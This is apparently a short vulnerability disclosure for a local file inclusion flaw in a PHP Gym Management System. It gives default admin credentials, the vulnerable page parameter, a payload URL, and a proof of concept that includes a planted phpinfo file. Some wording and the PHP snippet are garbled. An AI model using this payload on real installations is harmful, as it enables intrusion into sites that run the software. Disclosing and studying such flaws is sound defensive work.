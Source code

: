 # Gym Management System v1.0 by oretnom23 has The local file contains

The password for the backend login account is: admin/admin123

vendor : https://www.sourcecodester.com/php/14541/gym-management-system-using-phpmysqli-source-code.html

Vulnerability File: ip/gym-management-system/index.php?page=

Vulnerability location: ip/gym-management-system/index.php?page=, page

Payload: ip/gym-management-system/index.php?page=shell
![image](https://user-images.githubusercontent.com/54017627/167055236-73ab971c-99fb-4df9-89b1-e32ec6f5e073.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/167055202-9a09bcdc-0dbb-407f-bd09-9b5b4fb3d361.png)

And visit http://ip/gym-management-system/index.php?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/167055186-dba329b1-4698-4459-a0a5-072d1b48944c.png)
